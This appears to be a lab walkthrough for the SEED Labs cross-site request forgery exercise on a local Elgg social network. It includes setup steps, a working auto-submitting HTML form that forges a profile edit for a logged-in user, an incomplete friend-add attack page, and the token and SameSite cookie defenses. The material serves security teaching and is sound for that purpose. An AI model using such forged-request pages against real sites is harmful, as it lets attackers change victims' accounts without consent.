# Cross-Site Request Forgery (CSRF) Attack Lab

This lab teaches you how to exploit CSRF vulnerabilities and defend against them.

## Objectives
- Exploit CSRF using GET requests
- Exploit CSRF using POST requests  
- Implement defenses using secret tokens and SameSite cookies

---

## Setup

**NOTE:** Have a complete Lab Setup, Visit https://seedsecuritylabs.org/

### 1. Download and Extract Lab Files
- (Optional) Download `Labsetup.zip` from https://seedsecuritylabs.org/
- Extract and navigate to folder:
```bash
unzip Labsetup.zip
cd Labsetup
```

### 2. Configure Hosts
```bash
sudo nano /etc/hosts

# Add these lines:
10.9.0.5 www.seed-server.com
10.9.0.5 www.example32.com
10.9.0.105 www.attacker32.com
```

### 3. Fix Container Conflicts (if needed)
```bash
docker-compose down
docker rm -f mysql-10.9.0.6

# or

docker-compose down
docker rm -f PUT_CONTAINER_ID_HERE
```

### 4. Start Containers
```bash
docker-compose up -d

# or

dcup
```

### 5. Check Containers Running
```bash
docker ps
```

You should see 3 containers: elgg, mysql, attacker

### 6. Open Website
Open browser: `http://www.seed-server.com`

**User Accounts:**
```
Username: alice    Password: seedalice
Username: samy     Password: seedsamy
Username: boby     Password: seedboby
```

---

## Task 1: Observe HTTP Requests

**Goal:** Learn to capture HTTP requests

### Steps:

1. Install "HTTP Header Live" add-on in Firefox

2. Click the add-on icon to enable it

3. Login as Alice:
   - Go to `http://www.seed-server.com`
   - Username: `alice`
   - Password: `seedalice`

4. Click around and watch GET requests appear in sidebar



5. Edit Alice's profile:
   - Open Firefox Developer Tools (F12) → Network tab
   - Go to Edit Profile
   - Make a change and Save
   - See POST request to `/action/profile/edit`
   - Click it and see parameters



---

## Task 2: CSRF Attack Using GET Request

**Goal:** Make Alice add Samy as friend without her knowing

### How it works:
When Alice visits attacker's page, a hidden image automatically sends request to add Samy as friend.

### Steps:

#### 1. Find Samy's GUID

Login as Samy, go to his profile, view page source (Right-click → View Page Source), search for "guid"  or use browser console,

```bash
elgg.session.user.guid
```
Samy's GUID is **59**



#### 2. Create Attack Page

```bash
cd Labsetup/attacker
nano addfriend.html
```

**Copy this code:**

```html
<!DOCTYPE html>
<html>
<head>
    <title>Cute Cats!</title>
</head>
<body>
    <h1>Check out these cute cats!</h1>
    
    <!-- This hidden image triggers the attack -->
    
    
    <!-- Show a real cat image -->
    
</body>
</html>
```

**Here `59` is Samy's GUID!**

Save: Ctrl+O, Enter, Ctrl+X

**NOTE:** First try to add Samy as a friend manually and check the POST response.

#### 3. Launch Attack

1. Make sure Alice is logged into Elgg
2. In same browser, visit: `http://www.attacker32.com/addfriend.html`
3. Page loads → Attack happens!



#### 4. Check Result

Go back to Elgg, check Alice's friends. Samy should be there!



---

## Task 3: CSRF Attack Using POST Request

**Goal:** Change Alice's profile to say "Samy is my Hero"

### Steps:

#### 1. Find Alice's GUID

Login as Alice, view her profile page source, search for "guid" or use browser console,

```bash
elgg.session.user.guid
```

Here Alice's GUID is **56**

#### 2. Create Attack Page

```bash
cd Labsetup/attacker
nano editprofile.html
```

**Copy this code:**

```html
<!DOCTYPE html>
   <html>
   <body>
       <h1>Welcome to Samy's Page</h1>
       <p>Loading content...</p>
       
       <script type="text/javascript">
       function forge_post()
       {
           var fields = "";
           
           // Fill in these values based on what you captured
           fields += "<input type='hidden' name='name' value='Alice'>";
           fields += "<input type='hidden' name='description' value='<p>Samy is my Hero</p>'>";
           fields += "<input type='hidden' name='briefdescription' value='Samy is my Hero'>";
           fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
           fields += "<input type='hidden' name='guid' value='56'>";
           
           // Create and submit form
           var p = document.createElement("form");
           p.action = "http://www.seed-server.com/action/profile/edit";
           p.innerHTML = fields;
           p.method = "post";
           
           document.body.appendChild(p);
           p.submit();
       }
       
       window.onload = function() { forge_post(); }
       </script>
   </body>
   </html>
```

**Here:**
- `value='Alice'` → Alice's name
- `value='56'` → Alice's GUID

Save: Ctrl+O, Enter, Ctrl+X



#### 3. Launch Attack

1. Make sure Alice is logged into Elgg
2. Visit: `http://www.attacker32.com/editprofile.html`
3. Page loads and redirects

#### 4. Check Result

View Alice's profile. It should say "Samy is my Hero....."



### Questions to Answer:

**Q1: How to find Alice's GUID without her password?**

Answer: Visit her profile page → View Page Source → Search for "guid"

**Q2: Can you attack anyone without knowing who they are?**

Answer: No, we need the victim's GUID. We can't attack without knowing it first.

---

## Task 4: Enable CSRF Protection

**Goal:** Turn on Elgg's defense and see attack fail

### Steps:

#### 1. Access Container

```bash
# Find container ID
docker ps

# Access elgg container
docker exec -it <elgg-container-id> /bin/bash
```



#### 2. Edit Protection File

```bash
cd /var/www/elgg/vendor/elgg/elgg/engine/classes/Elgg/Security
nano Csrf.php
```

#### 3. Remove the Return Statement

Find this:
```php
public function validate(Request $request) {
    return; // Added for SEED Labs (disabling the CSRF countermeasure)
```

Delete the `return;` line:
```php
public function validate(Request $request) {
    // return; // Added for SEED Labs (disabling the CSRF countermeasure)
```

Save: Ctrl+O, Enter, Ctrl+X



#### 4. Test Attack Again

Try both Add Friend & Profile Edit: `http://www.attacker32.com`

**Warning: Page will loop forever! Close tab immediately!**

Check Alice's profile → Should NOT be changed ✓



#### 5. Why it Failed

Edit Alice's profile manually and capture the request. You'll see:
```
__elgg_token=fc98784a9fbd02b68682bbb0e75b428b
__elgg_ts=1403464813
```

These are secret tokens. Attacker can't get them because:
- Same-Origin Policy blocks reading from other websites
- Tokens are random and unpredictable
- Tokens change every session

---

## Task 5: SameSite Cookie Defense

**Goal:** See how SameSite cookies block CSRF

### Steps:

#### 1. Visit Example Site

```
http://www.example32.com/
```
This sets 3 cookies: normal, lax, strict

#### 2. Test Same-Site Request

Click **Link A** (goes to example32.com)

All 3 cookies are sent ✓



#### 3. Test Cross-Site Request  

Click **Link B** (goes to attacker32.com, then requests example32.com)

Only normal cookie is sent. Strict cookie is blocked ✓



### Questions to Answer:

**Q1: How does SameSite help?**

Answer: If session cookie is SameSite=Strict, browser won't send it in cross-site requests. No cookie = no login = attack fails.

**Q2: How to use SameSite in Elgg?**

Answer: Set Elgg's session cookie to SameSite:

```php
setcookie('Elgg', $session_id, [
    'samesite' => 'Strict',
    'secure' => true,
    'httponly' => true
]);
```

This tells browser: "Don't send this cookie to cross-site requests"

---

## Credits

SEED Labs by Wenliang Du - https://seedsecuritylabs.org/